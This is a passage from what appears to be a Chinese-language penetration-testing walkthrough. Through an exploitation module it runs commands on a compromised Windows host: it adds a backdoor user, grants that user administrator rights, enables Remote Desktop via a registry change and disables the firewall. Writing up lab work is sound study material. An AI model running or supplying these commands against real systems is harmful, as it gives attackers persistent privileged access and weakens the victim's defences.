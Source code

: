 
成功执行命令。接着我们来添加一个用户尝试远程登录一下。

还是使用上面的模块，依次执行下面命令

```shell
set command net user sss qwer@1234 /add #添加用户
run # 发现用户添加不成功，后来发现是因为有密码设置策略，密码不能太简单。
set command net localgroup administrators sss /add #管理员权限
run 
set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f' 
#开启3389端口
runset command netsh advfirewall set allprofiles state off #关闭防火墙
run #好像没有防火墙
```

添加用户

![image-20240307183657601](image/image-20240307183657601.png)

给添加的用户管理员权限

